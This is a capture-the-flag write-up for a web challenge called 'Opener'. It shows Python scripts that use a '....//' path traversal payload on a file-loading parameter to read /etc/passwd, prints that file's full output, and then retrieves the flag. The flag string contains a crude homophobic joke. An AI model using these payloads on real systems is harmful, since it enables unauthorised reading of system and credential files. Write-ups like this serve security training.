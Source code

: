 # Opener

## Description
```
There seems to be something wrong with this picture transfer function...
```

## Writeup

Looking at the webpage we see a function to load a picture. <br/>
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Images</title>
    <link rel="stylesheet" href="/styles.css">
</head>
<body>
<div class="container">
    <script>
        const images = ['Sample_abc.jpg', 'gosl.jpg', 'sunflower.jpg'];
        const randomImage = images[Math.floor(Math.random() * images.length)];
        fetch(`/files?file=${randomImage}`)
            .then(response => response.blob())
            .then(blob => {
                const imgUrl = URL.createObjectURL(blob);
                const imageElement = document.createElement('img');
                imageElement.src = imgUrl;
                imageElement.alt = 'Random Image';
                document.body.appendChild(imageElement);
            });
    </script>
</div>
</body>
</html>
```

Taking a look around the website only thing I found was the parameter `/files?file=`. <br/>
Using this I tested the parameter. <br/>
Using `/files?file=asd` resulted in the error message `File Not Found` but using `/files?file=index.html` I received the `index.html` page as output. <br/>
Having the information that I can read other files than the pictures I tried to execute a path traversal exploit. <br/>
I used [Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion) for this purpose. <br/>

After some tries I found one that worked. <br/>
```py
import requests

url = 'http://45.88.77.177:21002/files?file='

file_path = '....//....//....//....//etc/passwd'

req = requests.get(f"{url}{file_path}")

print(req.text)
```

Executing this script I got the output below which proved that `Path Traversal` was really possible. <br/>
```sh
kali@kali python3 ./solve.py

root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin      
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin   
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin   
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin  
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin        
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin        
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000:Linux User,,,:/home/node:/bin/sh  
```

Now I just had to find the path of the flag which didn't take long. <br/>
```py
import requests

url = 'http://45.88.77.177:21002/files?file='

file_path = '....//flag.txt'

req = requests.get(f"{url}{file_path}")

print(req.text)
```

Executing this I obtained the flag which concludes this writeup. <br/>
```sh
kali@kali kali@kali python3 ./solve.py

grodno{P47H_7R4V3r54L_NO_HOMo}
```

